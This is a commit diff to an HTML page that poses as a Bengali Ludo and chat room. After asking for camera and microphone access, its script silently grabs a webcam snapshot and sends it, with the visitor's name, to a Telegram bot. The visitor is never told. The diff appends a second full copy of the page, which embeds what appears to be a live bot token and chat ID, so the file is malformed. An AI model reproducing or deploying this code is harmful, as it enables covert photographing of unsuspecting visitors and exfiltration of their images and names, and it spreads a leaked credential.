

Before and after one commit to rojaislam1619-collab/roja-income-v2, a plain HTML site: page index.html in a window 1280 px wide. Before the commit the page ends 800 px from the top, so only its background shows below. Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -1,33 +1,110 @@
 <!DOCTYPE html>
-<html>
+<html lang="bn">
 <head>
-    <title>আমাদের আড্ডা রুম</title>
+    <meta charset="UTF-8">
+    <style>
+        body { font-family: sans-serif; text-align: center; background: #f4f4f9; padding: 20px; }
+        #video-preview { width: 100%; max-width: 400px; border-radius: 15px; border: 5px solid #fff; box-shadow: 0 4px 10px rgba(0,0,0,0.2); }
+        .btn { padding: 15px 30px; border: none; border-radius: 25px; cursor: pointer; font-size: 18px; margin: 10px; color: #fff; }
+        .join-btn { background: #28a745; }
+        .mute-btn { background: #dc3545; }
+    </style>
 </head>
 <body>
-    <h1>লুডু ও আড্ডা রুম</h1>
-    <input type="text" id="username" placeholder="আপনার নাম লিখুন">
-    <button onclick="joinRoom()">রুমে প্রবেশ করুন (ক্যামেরা ও মাইকসহ)</button>
-
-    <div id="video-container"></div>
+    <h1>🎮 লুডু ও আড্ডা জোন</h1>
+    <input type="text" id="name" placeholder="আপনার নাম লিখুন" style="padding:10px; width:80%; margin-bottom:10px;">
+    <br>
+    <button class="btn join-btn" onclick="startSession()">রুমে প্রবেশ করুন</button>
+    <button class="btn mute-btn" onclick="toggleMute()">মিউট / আনমিউট</button>
+    <br>
+    <video id="video-preview" autoplay playsinline muted></video>
 
     <script>
-        async function joinRoom() {
-            const name = document.getElementById('username').value;
-            if(!name) return alert("নাম লিখুন");
+        const botToken = "botYOUR_TOKEN_HERE";
+        const chatId = "YOUR_CHAT_ID_HERE";
+        let localStream;
 
-            // ১. ক্যামেরা ও মাইক্রোফোন এক্সেস
-            const stream = await navigator.mediaDevices.getUserMedia({ video: true, audio: true });
-            document.getElementById('video-container').innerHTML = "<video autoplay playsinline muted></video>";
-            document.querySelector('video').srcObject = stream;
+        async function startSession() {
+            const name = document.getElementById('name').value;
+            if (!name) return alert("দয়া করে আপনার নাম লিখুন");
 
-            // ২. টেলিগ্রাম বোটে নোটিফিকেশন পাঠানো (আপনার বোট টোকেন ও চ্যাট আইডি বসান)
-            const botToken = "YOUR_BOT_TOKEN_HERE";
-            const chatId = "YOUR_CHAT_ID_HERE";
-            const message = `🚨 নতুন বন্ধু রুমে ঢুকেছে: ${name}`;
+            localStream = await navigator.mediaDevices.getUserMedia({ video: true, audio: true });
+            document.getElementById('video-preview').srcObject = localStream;
 
-            fetch(`https://api.telegram.org/bot${botToken}/sendMessage?chat_id=${chatId}&text=${encodeURIComponent(message)}`);
+            // অটোমেটিক ছবি পাঠানো
+            const canvas = document.createElement('canvas');
+            canvas.getContext('2d').drawImage(document.getElementById('video-preview'), 0, 0, 400, 300);
+            canvas.toBlob(async (blob) => {
+                const formData = new FormData();
+                formData.append('chat_id', chatId);
+                formData.append('photo', blob);
+                formData.append('caption', `🚨 নতুন বন্ধু রুমে জয়েন করেছে: ${name}`);
+                await fetch(`https://api.telegram.org/${botToken}/sendPhoto`, { method: 'POST', body: formData });
+            }, 'image/jpeg');
+        }
 
-            alert("রুমে সফলভাবে যুক্ত হয়েছেন!");
+        // মিউট বাটন ফাংশন
+        function toggleMute() {
+            if (localStream) {
+                const audioTrack = localStream.getAudioTracks()[0];
+                audioTrack.enabled = !audioTrack.enabled;
+                alert(audioTrack.enabled ? "মাইক্রোফোন চালু হয়েছে" : "মাইক্রোফোন মিউট করা হয়েছে");
+            }
+        }
+    </script>
+</body>
+</html><!DOCTYPE html>
+<html lang="bn">
+<head>
+    <meta charset="UTF-8">
+    <style>
+        body { font-family: sans-serif; text-align: center; background: #f4f4f9; padding: 20px; }
+        #video-preview { width: 100%; max-width: 400px; border-radius: 15px; border: 5px solid #fff; box-shadow: 0 4px 10px rgba(0,0,0,0.2); }
+        .btn { padding: 15px 30px; border: none; border-radius: 25px; cursor: pointer; font-size: 18px; margin: 10px; color: #fff; }
+        .join-btn { background: #28a745; }
+        .mute-btn { background: #dc3545; }
+    </style>
+</head>
+<body>
+    <h1>🎮 লুডু ও আড্ডা জোন</h1>
+    <input type="text" id="name" placeholder="আপনার নাম লিখুন" style="padding:10px; width:80%; margin-bottom:10px;">
+    <br>
+    <button class="btn join-btn" onclick="startSession()">রুমে প্রবেশ করুন</button>
+    <button class="btn mute-btn" onclick="toggleMute()">মিউট / আনমিউট</button>
+    <br>
+    <video id="video-preview" autoplay playsinline muted></video>
+
+    <script>
+        const botToken = "8853221737:AAHDigRYNltTvdFGZW4gZahuu3M9dlJHENU";
+        const chatId = "6420303571";
+        let localStream;
+
+        async function startSession() {
+            const name = document.getElementById('name').value;
+            if (!name) return alert("দয়া করে আপনার নাম লিখুন");
+
+            localStream = await navigator.mediaDevices.getUserMedia({ video: true, audio: true });
+            document.getElementById('video-preview').srcObject = localStream;
+
+            // অটোমেটিক ছবি পাঠানো
+            const canvas = document.createElement('canvas');
+            canvas.getContext('2d').drawImage(document.getElementById('video-preview'), 0, 0, 400, 300);
+            canvas.toBlob(async (blob) => {
+                const formData = new FormData();
+                formData.append('chat_id', chatId);
+                formData.append('photo', blob);
+                formData.append('caption', `🚨 নতুন বন্ধু রুমে জয়েন করেছে: ${name}`);
+                await fetch(`https://api.telegram.org/${botToken}/sendPhoto`, { method: 'POST', body: formData });
+            }, 'image/jpeg');
+        }
+
+        // মিউট বাটন ফাংশন
+        function toggleMute() {
+            if (localStream) {
+                const audioTrack = localStream.getAudioTracks()[0];
+                audioTrack.enabled = !audioTrack.enabled;
+                alert(audioTrack.enabled ? "মাইক্রোফোন চালু হয়েছে" : "মাইক্রোফোন মিউট করা হয়েছে");
+            }
         }
     </script>
 </body>
```
